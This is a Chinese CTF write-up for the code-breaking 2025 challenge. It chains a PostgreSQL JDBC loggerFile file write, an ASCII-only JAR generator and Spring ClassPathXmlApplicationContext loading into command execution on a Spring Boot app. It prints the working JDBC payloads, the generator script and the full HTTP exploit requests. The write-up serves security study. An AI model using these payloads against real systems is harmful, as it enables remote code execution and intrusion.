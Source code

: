 ```yaml
---
title: "ascii-jar首次操刀解决code-breaking 2025"
onlyTitle: true
date: 2025-4-21 22:59:06
categories:
- ctf
- WP
tags:
- Tomcat
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B8150.jpg
---
```




# ascii-jar首次操刀解决code-breaking 2025

2025code-breaking：https://github.com/phith0n/code-breaking/tree/master/2025

可以打postgresql JDBC Attack

但是不出网情况下写文件是利用如下payload。

```java
jdbc:postgresql://127.0.0.1:11111/test/?loggerLevel=DEBUG&loggerFile=shell.jsp&<%Runtime.getRuntime().exec(\"calc\")};%> =\n
```

看起来只能写可见字符，如果进行URL编码的话，就能写二进制字符串。

虽然是达到了任意写文件的目的，但是目标环境是个springboot项目，打包成fatJAR的形式运行，所以没办法直接写JSP

同时，postgresql JDBC Attack还有一种利用手法就是利用ClassPathXmlApplicationContext 进行spEL注入。因为不能出网的原因受到限制。

于是我们想办法写xml，然后用ClassPathXmlApplicationContext去加载，但是xml前后不能有脏字符，如果有脏字符会会报错`The processing instruction target matching "[xX][mM][lL]" is not allowed.`。从postgresql JDBC Attack的参数来看，loggerFile显然是通过日志写文件，都不用进行分析，前后一定会有很多脏数据，报错数据也会写进去。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250421221043940.png)

我们可控的部分只有如下部分。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/4f925839-8642-4a09-86d5-b941e26e8443.png)

众所周知，ClassPathXmlApplicationContext指定加载xml的路径可以是个jar:file:///协议。

为了绕过脏数据的限制，想到用ascii-jar将要加载的XML打包并写入一个zip格式的数据包，然后以`jar:/path/to/payload.zip!/META-INF/resources/poc.xml`的形式进行加载。

哎，现在有同学可能就要问了：这样写入的ZIP包数据前后不是也有脏数据吗？

根据以下分析，jar实际上就是zip格式，JAR被类加载器加载时，必须有中央目录项和EOCD块。而ZIP包前后不仅可以容纳脏数据，而且甚至可以不需要中央目录项和EOCD块

https://godownio.github.io/2025/04/21/2022rwctf-desperate-cat-xue-xi-zi-fu-chuan-xie-jar-wen-jian-he-zang-shu-ju-rao-guo/#%E8%A7%A3%E6%B3%952%EF%BC%9AASCII-JAR%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0

而Spring 的 `ClassPathXmlApplicationContext("classpath:/META-INF/resources/poc.xml")` 走的是标准的 `ClassLoader.getResourceAsStream()`路径。它根本不关心这个 JAR 是不是“合格的 Java JAR”，它只需要找到 `META-INF/resources/poc.xml` 在 zip 结构里的位置，并读取到它的内容

## WP

按理说直接对poc.xml进行压缩后URL编码上传即可，但是`org.postgresql.util.URLCoder#decode`解析JDBC URL如下：以UTF解码

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250421224815901.png)

ZIP是二进制格式，里面一定包含非ASCII字节

UTF-8 向后兼容 ASCII，0x00–0x7F 的字节在 UTF-8 中就是合法的单字节字符，不需要多字节编码，也不会触发错误。

利用ascii-jar构造ascii字符范围内的jar包

```python
#!/usr/bin/env python
# autor: c0ny1
# date 2022-02-13
from __future__ import print_function

import time
from compress import *

allow_bytes = []
disallowed_bytes = [38,60,39,62,34,40,41] # &<'>"()
for b in range(0,128): # ASCII
    if b in disallowed_bytes:
        continue
    allow_bytes.append(b)


if __name__ == '__main__':
    padding_char = 'A'
    raw_filename = 'poc.xml'
    zip_entity_filename = 'META-INF/resources/poc.xml'
    jar_filename = 'ascii02.jar'
    num = 1
    while True:
        # step1 动态生成java代码并编译
        javaCode = """<?xml version="1.0" encoding="UTF-8"?>
<!-- {PADDING_DATA} -->
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation=" http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg>
            <list>
                <value>touch</value>
                <value>/tmp/success.txt</value>
            </list>
        </constructor-arg>
        <property name="whatever" value="#{pb.start()}"/>
    </bean>
</beans>
            """
        padding_data = padding_char * num
        javaCode = javaCode.replace("{PADDING_DATA}", padding_data)

        f = open(raw_filename, 'w')
        f.write(javaCode)
        f.close()
        time.sleep(0.1)

        # step02 计算压缩之后的各个部分是否在允许的ASCII范围
        raw_data = bytearray(open(raw_filename, 'rb').read())
        compressor = ASCIICompressor(bytearray(allow_bytes))
        compressed_data = compressor.compress(raw_data)[0]
        crc = zlib.crc32(raw_data) % pow(2, 32)

        st_crc = struct.pack('<L', crc)
        st_raw_data = struct.pack('<L', len(raw_data) % pow(2, 32))
        st_compressed_data = struct.pack('<L', len(compressed_data) % pow(2, 32))
        st_cdzf = struct.pack('<L', len(compressed_data) + len(zip_entity_filename) + 0x1e)


        b_crc = isAllowBytes(st_crc, allow_bytes)
        b_raw_data = isAllowBytes(st_raw_data, allow_bytes)
        b_compressed_data = isAllowBytes(st_compressed_data, allow_bytes)
        b_cdzf = isAllowBytes(st_cdzf, allow_bytes)

        # step03 判断各个部分是否符在允许字节范围
        if b_crc and b_raw_data and b_compressed_data and b_cdzf:
            print('[+] CRC:{0} RDL:{1} CDL:{2} CDAFL:{3} Padding data: {4}*{5}'.format(b_crc, b_raw_data, b_compressed_data, b_cdzf, num, padding_char))
            # step04 保存最终ascii jar
            output = open(jar_filename, 'wb')
            output.write(wrap_jar(raw_data,compressed_data, zip_entity_filename.encode()))
            print('[+] Generate {0} success'.format(jar_filename))
            break
        else:
            print('[-] CRC:{0} RDL:{1} CDL:{2} CDAFL:{3} Padding data: {4}*{5}'.format(b_crc, b_raw_data,
                                                                                       b_compressed_data, b_cdzf, num,
                                                                                       padding_char))
        num = num + 1

```

注意xml加脏字符的形式不太一样，不过加到注释里就OK

利用yakit对文件URL编码

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250421213557590.png)

上传

```http
POST /jdbc?url={{urlenc(jdbc:postgresql:///?a=)}} HTTP/1.1
Host: localhost:8080
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 164

url=%26loggerLevel%3DDEBUG%26loggerFile%3D%2Fapp%2Fascii02.jar%26PK%03%04%0A%00%00%00%08%00%00%00%00%00%0FU%1BV%1E%04%00%00A%03%00%00%1A%00%00%00META-INF%2Fresources%2Fpoc.xmlD0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3SUUnUUU7CiudIbEAtswWt0GDDwGpDwwwGDtttwGwDtDDtGtDwGtpt3wGwG33333s03333sDDfBDN~%7F%5BkBo%5DWwSG%7BnRzJZRB%5D%7BMGmS%7BCnREyQrVR~%5E%7C%5CNbrrBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABrr%5E%7C%5CNu%5DU%7BwB%7F%5Bk%7BwnRcOOgvjj___JwgWS%7BC%7DWU%5B%5D_GWKJGWCjwMc%5D%5BUju%5DU%7BwRB%7F%5Bk%7Bwv%7FwSnRcOOgvjj___J_fJGWCjFZZzjeIqYMc%5D%5BUrS%7BwOU%7BM%5DRB%7FwSvwMc%5D%5BUqGMUOSG%7BnRBcOOgvjj___JwgWS%7BC%7DWU%5B%5D_GWKJGWCjwMc%5D%5BUju%5DU%7BwBcOOgvjj___JwgWS%7BC%7DWU%5B%5D_GWKJGWCjwMc%5D%5BUju%5DU%7BwjwgWS%7BCru%5DU%7BwJ%7FwmR%5E%7C%5CBBBBNu%5DU%7BBSmnRguRBMkUwwnRsUoUJkU%7BCJiWGM%5Dww%21D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3SUUnUUUwCiudIbEAt33WDDttGDtGDwGpDDwG03sDwwGwGtwwtwwwGG33333wwG03333GDdFPgCcMm%5B~Eb%5C%5E%5E%5E%5E%5E%5E%5E%5EYuKs%7BG%5BguGK%5Bqe%5B%5DEb%5C%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5EYcC%7BGEb%5C%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5EYWecgmEGKgu%7DYiWecgmEb%5C%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5EYWecgmEiGSki%7Bguum%7B%7BIGOGYiWecgmEb%5C%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5EYicC%7BGEb%5C%5E%5E%5E%5E%5E%5E%5E%5EYiuKs%7BG%5BguGK%5Bqe%5B%5DEb%5C%5E%5E%5E%5E%5E%5E%5E%5EYk%5BKkm%5BGo%5EseSmy~w%7DeGmWm%5B~%5EWecgmy~A_kUI%7BGe%5BGaQ%7F~iEb%5C%5E%5E%5E%5EYiUmesEb%5CYiUmes%7BEb%5C%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%5E%1EPK%01%02%00%00%0A%00%00%00%08%00%00%00%00%00%0FU%1BV%1E%04%00%00A%03%00%00%1A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00META-INF%2Fresources%2Fpoc.xmlPK%05%06%00%00%00%00%00%00%01%00H%00%00%00V%04%00%00%00%00
```

之所以get和post分别传一个url串，是为了利用特性绕过getParamter，这样在getParameter得到`jdbc:postgresql:///?a=`，而jdbc路由得到的是get+post拼接的串，见https://godownio.github.io/2025/04/17/spel-de-bu-chu-wang-li-yong/#code-breaking2025-wp

然后利用ClassPathXmlApplicationContext加载jar包里的poc.xml

```http
POST /jdbc?url={{urlenc(jdbc:postgresql:///?a=)}} HTTP/1.1
Host: localhost:8080
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 141

url={{urlenc(&socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=jar:file:///app/ascii02.jar!/META-INF/resources/poc.xml)}}
```

执行成功

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250421213529757.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250421225652967.png)

把上传后的jar包扒下来，可以看到一堆报错日志，但是不影响

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250421224018658.png)